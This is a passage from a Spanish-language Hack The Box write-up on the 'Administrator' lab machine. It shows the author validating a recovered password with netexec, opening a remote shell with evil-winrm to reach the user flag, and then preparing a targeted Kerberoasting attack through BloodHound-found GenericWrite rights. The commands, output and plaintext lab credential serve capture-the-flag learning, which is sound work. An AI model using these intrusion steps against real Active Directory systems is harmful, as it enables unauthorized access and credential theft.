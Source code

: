 Usamos la cotraseña y vemos varios usuarios. 

![](../assets/images/htb-administratos/imagen7.png)

Recordando que tanto emyli como alexander son usuarios válidos que enumeramos al inicio, valilando la contraseña vemos que la contraseña para emily nos funciona,y es aquí donde se encuentra la primera flag de usuario: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/administrator]
└─$ netexec smb 10.10.11.42 -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb"                                            
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb 
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/labs-hack/administrator]
└─$ evil-winrm -i 10.10.11.42 -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily\Documents> dir ..\Desktop\


    Directory: C:\Users\emily\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/30/2024   2:23 PM           2308 Microsoft Edge.lnk
-ar---         4/21/2025  10:02 AM             34 user.txt


*Evil-WinRM* PS C:\Users\emily\Documents>
```

Explorando a esta usuaria en bloodhount vemos que tiene permisos de genericwrite sobre el usuari **ethan**, así que nos descargamos la [herramienta](https://github.com/ShutdownRepo/targetedKerberoast) que nos proporciona bloodhount para el nn Targeted Kerberoast attack (ataque Kerberoasting dirigido), que es una versión más refinada del ataque clásico Kerberoasting, que se enfoca en obtener hashes de tickets de servicio (TGS) en Active Directory, pero solo de cuentas específicas, como cuentas de alto valor (por ejemplo, cuentas con privilegios elevados como Domain Admins, SQLService, etc.).
